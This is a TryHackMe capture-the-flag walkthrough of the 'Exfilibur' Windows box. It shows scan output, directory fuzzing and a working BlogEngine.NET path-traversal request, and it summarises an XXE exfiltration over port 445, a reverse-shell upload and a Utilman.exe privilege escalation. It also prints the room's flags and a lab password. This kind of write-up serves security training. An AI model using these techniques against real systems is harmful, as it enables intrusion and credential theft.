<div align="center">


</div>

---

# TryHackMe: Exfilibur — Technical Walkthrough

---

## Machine Overview

| Detail | Information |
| :--- | :--- |
| **Room / Target** | Exfilibur |
| **Operating System** | Windows Server 2019 (Build 10.0.17763) |
| **Target IP** | `10.129.150.180` |
| **Difficulty** | Hard |
| **Objective** | Full compromise: achieve code execution, pivot laterally, escalate to `NT AUTHORITY\SYSTEM`, and recover both flags |
| **Initial Access** | BlogEngine.NET 3.3.7.0 — Unauthenticated LFI & OOB XXE chained into Authenticated RCE via ASP.NET control upload |
| **Privilege Escalation** | Token privilege manipulation (`SeTakeOwnershipPrivilege` / `SeRestorePrivilege`) to hijack `Utilman.exe` |
| **User Flag** | `THM{HACKERS_EXFILTRATE_DATA_NOT_DRAGONS}` |
| **Root Flag** | `THM{STOP_ABUSING_PRIVILEGES_IN_CAMELOT}` |

---

## Table of Contents

- [1. Executive Summary](#1-executive-summary)
- [2. Visual Attack Flow](#2-visual-attack-flow)
- [3. Enumeration & Surface Discovery](#3-enumeration--surface-discovery)
  - [3.1 Initial Port & Service Scan](#31-initial-port--service-scan)
  - [3.2 Web Probing & Directory Fuzzing](#32-web-probing--directory-fuzzing)
  - [3.3 Software Fingerprinting: BlogEngine.NET 3.3.7.0](#33-software-fingerprinting-blogenginenet-3370)
- [4. Chaining Vulnerabilities to Steal Credentials](#4-chaining-vulnerabilities-to-steal-credentials)
  - [4.1 Path Traversal via FileManager API (CVE-2019-10717)](#41-path-traversal-via-filemanager-api-cve-2019-10717)
  - [4.2 Hitting the Firewall & Pivoting to Out-of-Band XXE (CVE-2019-11392)](#42-hitting-the-firewall--pivoting-to-out-of-band-xxe-cve-2019-11392)
  - [4.3 Bypassing Egress Filtering via Port 445 (SMB)](#43-bypassing-egress-filtering-via-port-445-smb)
  - [4.4 Exfiltrating users.xml Out-of-Band](#44-exfiltrating-usersxml-out-of-band)
  - [4.5 Cracking the Guest Password Hash](#45-cracking-the-guest-password-hash)
  - [4.6 Mining CMS Drafts for Lateral Movement Credentials](#46-mining-cms-drafts-for-lateral-movement-credentials)
- [5. Gaining a Foothold (Shell as merlin)](#5-gaining-a-foothold-shell-as-merlin)
  - [5.1 The RCE Plan: Malicious ASP.NET Control (CVE-2019-10719)](#51-the-rce-plan-malicious-aspnet-control-cve-2019-10719)
  - [5.2 Navigating the Theme Directory Write Restriction](#52-navigating-the-theme-directory-write-restriction)
  - [5.3 Weaponizing the Theme Cookie Traversal](#53-weaponizing-the-theme-cookie-traversal)
  - [5.4 Catching the Reverse Shell on Port 445](#54-catching-the-reverse-shell-on-port-445)
- [6. Pivoting to King Arthur (kingarthy)](#6-pivoting-to-king-arthur-kingarthy)
  - [6.1 Identifying the Local Accounts](#61-identifying-the-local-accounts)
  - [6.2 Logging in via RDP & Grabbing the User Flag](#62-logging-in-via-rdp--grabbing-the-user-flag)
- [7. Privilege Escalation to NT AUTHORITY\SYSTEM](#7-privilege-escalation-to-nt-authoritysystem)
  - [7.1 Inspecting Token Privileges & Running Elevated](#71-inspecting-token-privileges--running-elevated)
  - [7.2 Enabling SeTakeOwnershipPrivilege and SeRestorePrivilege](#72-enabling-setakeownershipprivilege-and-serestoreprivilege)
  - [7.3 Hijacking the Utilman.exe Accessibility Binary](#73-hijacking-the-utilmanexe-accessibility-binary)
  - [7.4 Spawning the SYSTEM Shell & Collecting the Root Flag](#74-spawning-the-system-shell--collecting-the-root-flag)
- [8. Remediation & Defensive Takeaways](#8-remediation--defensive-takeaways)

---

## 1. Executive Summary

Exfilibur is a realistic Windows box that puts heavy emphasis on chained web exploitation and restrictive egress filtering before pivoting into classic Windows post-exploitation.

The initial foothold looks simple at first glance—an outdated instance of **BlogEngine.NET (version 3.3.7.0)** running on IIS 10.0. However, the box owner put up real defenses:
- Outbound traffic is heavily restricted. Standard HTTP callbacks on ports 80, 8080, and similar web ports get dropped silently by the host firewall.
- Public exploits for BlogEngine.NET rely on writing directly to `/Custom/Themes/`, which is blocked here by NTFS permissions.

By probing different outbound ports, we discovered that **port 445 (SMB)** was allowed outbound through the firewall. With this egress route open, we chained an unauthenticated directory traversal vulnerability (**CVE-2019-10717**) with an Out-of-Band XML External Entity injection (**CVE-2019-11392**) to steal the CMS user database (`users.xml`) over our custom HTTP server on port 445. 

Cracking the recovered SHA-256 hash gave us access to the `guest` account. Poking around the CMS dashboard revealed a hidden blog draft containing the password for local user `kingarthy`. We then uploaded a custom C# reverse shell (`PostView.ascx`) into the writable `/App_Data/files/` directory, used a path traversal trick in the `theme` cookie to force ASP.NET to execute it, and caught a reverse shell as `exfilibur\merlin` over port 445.

From there, we used the harvested password to log in via RDP as `kingarthy` and claim the user flag. For the final escalation to `SYSTEM`, we found that an elevated command prompt possessed `SeTakeOwnershipPrivilege` and `SeRestorePrivilege` in a disabled state. After turning them on via a quick PowerShell Win32 API call, we took ownership of `C:\Windows\System32\Utilman.exe`, replaced it with `cmd.exe`, and popped an interactive `NT AUTHORITY\SYSTEM` shell right from the Windows lock screen to collect the root flag.

---

## 2. Visual Attack Flow

```mermaid
flowchart TD
    classDef recon fill:#1e293b,stroke:#38bdf8,stroke-width:2px,color:#f8fafc;
    classDef chain fill:#334155,stroke:#f59e0b,stroke-width:2px,color:#f8fafc;
    classDef foothold fill:#451a03,stroke:#ef4444,stroke-width:2px,color:#f8fafc;
    classDef root fill:#14532d,stroke:#22c55e,stroke-width:2px,color:#f8fafc;

    subgraph Step1["1. Recon & Discovery"]
        A["RustScan & Nmap<br/>Ports 80 (IIS 10.0) & 3389 (RDP)"]:::recon --> B["Gobuster Directory Search<br/>Finds /blog running BlogEngine.NET 3.3.7.0"]:::recon
    end

    subgraph Step2["2. Egress Bypass & Credential Recovery"]
        B --> C["CVE-2019-10717 Directory Traversal<br/>Maps /App_Data/users.xml file location"]:::chain
        C --> D["Firewall Egress Test<br/>Port 80 blocked -> Port 445 allowed"]:::chain
        D --> E["CVE-2019-11392 OOB XXE via syndication.axd<br/>Exfiltrates users.xml over HTTP on Port 445"]:::chain
        E --> F["Hash Cracking (John the Ripper)<br/>Cracks guest hash -> guest:guest"]:::chain
        F --> G["CMS Draft Review<br/>Discovers kingarthy password: Excal1burP@ss1337"]:::chain
    end

    subgraph Step3["3. Foothold & User Pivot"]
        G --> H["CVE-2019-10719 Control Upload<br/>Uploads PostView.ascx to /App_Data/files/"]:::foothold
        H --> I["Theme Cookie Traversal<br/>Loads control via cookie: ../../App_Data/files"]:::foothold
        I --> J["Reverse Shell on Port 445<br/>Initial shell as exfilibur\\merlin"]:::foothold
        J --> K["RDP Login as kingarthy<br/>Grabs User Flag on Desktop"]:::foothold
    end

    subgraph Step4["4. Escalation to SYSTEM"]
        K --> L["Elevated Prompt Privilege Check<br/>SeTakeOwnership & SeRestore present but Disabled"]:::root
        L --> M["EnableAllTokenPrivs.ps1<br/>Enables SeTakeOwnershipPrivilege in token"]:::root
        M --> N["Accessibility Binary Hijack<br/>takeown & icacls on Utilman.exe -> overwrite with cmd.exe"]:::root
        N --> O["Lock Screen Trigger<br/>Click Ease of Access button -> Interactive SYSTEM Shell"]:::root
        O --> P["Administrator Flag Captured<br/>Complete Box Takeover"]:::root
    end
```

---

## 3. Enumeration & Surface Discovery

### 3.1 Initial Port & Service Scan

We kick things off with `rustscan` to scan all 65,535 TCP ports quickly, piping any hits straight into `nmap` for detailed service enumeration and script scanning (`-sV -sC -sS -A -O -Pn`):

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Exfilibur]
└─$ rustscan -a 10.129.150.180 --ulimit 5000 -- -sV -sC -sS -A -O -Pn
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Exploring the digital landscape, one IP at a time.

[~] The config file is expected to be at "/home/alphax/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.150.180:80
Open 10.129.150.180:3389
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sV -sC -sS -A -O -Pn" on ip 10.129.150.180
Depending on the complexity of the script, results may take some time to appear.
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-01 12:48 +0530
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
mass_dns: Using DNS server 8.8.8.8
mass_dns: Using DNS server 8.8.4.4
mass_dns: Using DNS server 2409:40c1:5002:41a9:ee91:61ff:fe0e:861e
Initiating Parallel DNS resolution of 1 host. at 12:48
mass_dns: 0.00s 1/1 [#: 3, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, SY: 0]
Completed Parallel DNS resolution of 1 host. at 12:48, 0.50s elapsed
Initiating SYN Stealth Scan at 12:48
Scanning 10.129.150.180 [2 ports]
Discovered open port 80/tcp on 10.129.150.180
Discovered open port 3389/tcp on 10.129.150.180
Completed SYN Stealth Scan at 12:48, 0.19s elapsed (2 total ports)
Initiating Service scan at 12:48
Scanning 2 services on 10.129.150.180
Completed Service scan at 12:48, 6.40s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.129.150.180
Retrying OS detection (try #2) against 10.129.150.180
Initiating Traceroute at 12:48
Completed Traceroute at 12:48, 3.01s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 12:48
mass_dns: 0.00s 2/2 [#: 3, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, SY: 0]
Completed Parallel DNS resolution of 2 hosts. at 12:48, 0.50s elapsed
NSE: Script scanning 10.129.150.180.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 5.12s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.75s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
Nmap scan report for 10.129.150.180
Host is up, received user-set (0.16s latency).
Scanned at 2026-11-01 12:48:13 IST for 21s

PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-title: 403 - Forbidden: Access is denied.
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXFILIBUR
|   NetBIOS_Domain_Name: EXFILIBUR
|   NetBIOS_Computer_Name: EXFILIBUR
|   DNS_Domain_Name: EXFILIBUR
|   DNS_Computer_Name: EXFILIBUR
|   Product_Version: 10.0.17763
|_  System_Time: 2026-11-01T07:18:31+00:00
| ssl-cert: Subject: commonName=EXFILIBUR
| Issuer: commonName=EXFILIBUR
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-31T07:00:48
| Not valid after:  2027-05-02T07:00:48
| MD5:     ba45 be84 309e 6a6c 7624 a7ed 2977 49d2
| SHA-1:   d47a 1dd0 1494 d9e5 b894 c4e2 33c3 60c9 17ef ec35
| SHA-256: 1f6b 676f ef6f 0c27 81d3 15bb fa3e 4a06 2f11 d4a5 9db7 ec15 32a2 bb5c df5f 20fa
| -----BEGIN CERTIFICATE-----
| MIIC1jCCAb6gAwIBAgIQSABjpMURDrNI0f4NllazaTANBgkqhkiG9w0BAQsFADAU
| MRIwEAYDVQQDEwlFWEZJTElCVVIwHhcNMjYxMDMxMDcwMDQ4WhcNMjcwNTAyMDcw
| MDQ4WjAUMRIwEAYDVQQDEwlFWEZJTElCVVIwggEiMA0GCSqGSIb3DQEBAQUAA4IB
| DwAwggEKAoIBAQCmx140Lfpm/jBLNNmrB4JcT20fX+n1aJ3sXeBz23MMQQ9pug91
| A8BRTzyb5XghyVFxdQ0biSsz2MLw8rSzgcI5L4JkbW55qMHoCOVtEmBhHMG/bW49
| +mS8EYKqghpuIykbK+ckk9kG8UGPGhW/vXgtlD6u5uZOyhWFClNoK31V8Kz+VFxe
| n+gV/DVO+I6UA/aduXfdXCcoNvOVSC3T7K2uUICcJL4nDOgFOzAnyFWExfgFoCGL
| /jSxe2cX2hF/PuetHRYTYGS+XlBoo3870n62DJ9HY3NYlt7ls37g0dEKnq4oS+Vd
| 40aW/zFiYHXf2EctfgTQctaWqQXsea3BJf4ZAgMBAAGjJDAiMBMGA1UdJQQMMAoG
| CCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEAPimJHkA4
| D5HOd+rl2k2oE4t3y0A898mb5JzOGDL6I8mvi+dM8xS4xzHfOxK/yQMDz2IfpsxF
| 26a2gFLh4bNjgOfLg2j59+1weIs1H5KC2WU4ly1dSp4TjRlP99BXNvbpFT6bk0dq
| HKChRfpcYi/76eQRZkeh4PB3EjKyn5jVeXunmWXIdIyex6a4rKmXIYYW+6m2oo4j
| 1OXvae4Vv/kXFWku+FhG2JxyleCCIngcG+wad5elo+eORYEJTO/Fv7a+vTbhITuu
| POYNf7C85s0OBCrOhrdz7QKPoYpWBGHO5vHNfcPZwtGg3UAdYHCFtHc2eu04lMLV
| 7MHFa3mESyijhg==
|_-----END CERTIFICATE-----
|_ssl-date: 2026-11-01T07:18:32+00:00; -1s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2019 (92%), Microsoft Windows 10 1903 - 22H2 (85%), Microsoft Windows 10 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.991%E=4%D=11/1%OT=80%CT=%CU=%PV=Y%DS=3%DC=T%G=N%TM=6AE6E7CA%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=103%TI=I%TS=U)
SEQ(SP=109%GCD=1%ISR=109%TI=I%TS=U)
OPS(O1=M4E8NW8NNS%O2=M4E8NW8NNS%O3=M4E8NW8%O4=M4E8NW8NNS%O5=M4E8NW8NNS%O6=M4E8NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M4E8NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=N)

Network Distance: 3 hops
TCP Sequence Prediction: Difficulty=265 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   157.75 ms 192.168.128.1
2   ...
3   162.53 ms 10.129.150.180

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:48
Completed NSE at 12:48, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.75 seconds
           Raw packets sent: 102 (9.640KB) | Rcvd: 32 (1.520KB)

                                                                                              
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Exfilibur]
└─$ 
```

The scan reveals a clean, minimal attack surface:
- **Port 80 (HTTP):** Running Microsoft IIS 10.0. The server title shows `403 - Forbidden: Access is denied.`.
- **Port 3389 (RDP):** Microsoft Terminal Services is running. The `rdp-ntlm-info` script leaks the internal NetBIOS computer name `EXFILIBUR` and version build `10.0.17763`, which aligns with **Windows Server 2019**.

---

### 3.2 Web Probing & Directory Fuzzing

Visiting `http://10.129.150.180/` directly in the browser confirms the 403 Forbidden page:



Running `whatweb` confirms this is hosted on IIS 10.0 with ASP.NET on the backend:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Exfilibur]
└─$ whatweb http://10.129.150.180
http://10.129.150.180 [403 Forbidden] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.129.150.180], Microsoft-IIS[10.0], Title[403 - Forbidden: Access is denied.], X-Powered-By[ASP.NET]
```

A 403 at the root of an IIS server usually just means directory browsing is off and there's no `default.aspx` or `index.html` sitting directly in `C:\inetpub\wwwroot`. There is almost always a virtual directory or application hosted under a subfolder. 

We fire up `gobuster` using the `DirBuster-2007_directory-list-2.3-medium.txt` wordlist, filtering out the 3,490-byte default error page (`--xl 3490`):

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Exfilibur]
└─$ gobuster dir -u "http://10.129.150.180" -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 -q --xl 3490
blog                 (Status: 200) [Size: 22735]
Blog                 (Status: 200) [Size: 22735]
```

We immediately find `/blog` returning HTTP 200:



---

### 3.3 Software Fingerprinting: BlogEngine.NET 3.3.7.0

Navigating to `http://10.129.150.180/blog` presents a functional blog. Scrolling down to the page footer gives us the exact platform and version:



It is running **BlogEngine 3.3.7.0**. 

Anyone who has pentested older .NET apps knows that BlogEngine 3.3.7.0 is notoriously buggy. It suffers from multiple documented issues: an unauthenticated directory traversal vulnerability in its file manager, an unauthenticated out-of-band XML External Entity (XXE) flaw in its syndication handler, and an authenticated remote code execution flaw in its theme engine.

---

## 4. Chaining Vulnerabilities to Steal Credentials

### 4.1 Path Traversal via FileManager API (CVE-2019-10717)

The first bug we can look at is **CVE-2019-10717**. The API endpoint `/blog/api/filemanager` handles file browsing for the CMS. By passing URL-encoded directory traversal sequences in the `path` parameter, we can bypass folder isolation and view internal directory structures.

Testing this by requesting:

`http://10.129.150.180/blog/api/filemanager?path=%2F..%2f..%2f`



The application responds with the directory listing of the web root. Digging into the `/App_Data/` directory, we spot an interesting file:



We see `users.xml`. In BlogEngine.NET, when configured with its default flat-file XML provider, `users.xml` contains the account usernames and their password hashes. 

While the FileManager API lets us list directories, it doesn't allow us to download or display raw file contents directly. We need another vulnerability to actually read the file.

---

### 4.2 Hitting the Firewall & Pivoting to Out-of-Band XXE (CVE-2019-11392)

To read `users.xml`, we turn to **CVE-2019-11392**. BlogEngine.NET exposes an APML handler at `/blog/syndication.axd`. When supplied with the `apml` parameter pointing to a remote URL, the server's XML parser attempts to fetch and parse the target XML document without disabling external entity resolution or DTD processing.

However, when we tried firing a standard Out-of-Band XXE payload back to our attacker machine on port 80, nothing happened:



Burp Suite hung waiting for a response, and our local web server received zero connections. The box was clearly dropping outbound connections to common web ports.

---

### 4.3 Bypassing Egress Filtering via Port 445 (SMB)

When testing Windows servers that enforce strict egress filtering, you have to think about what protocols the host expects to use internally. Active Directory and Windows file sharing rely heavily on port **445 (SMB)** and port **53 (DNS)**. Often, network engineers will block ports 80, 8080, and 4444 outbound, but forget to block port 445.

To test this hypothesis, we started a Python HTTP server bound directly to port 445 on our attacker machine:

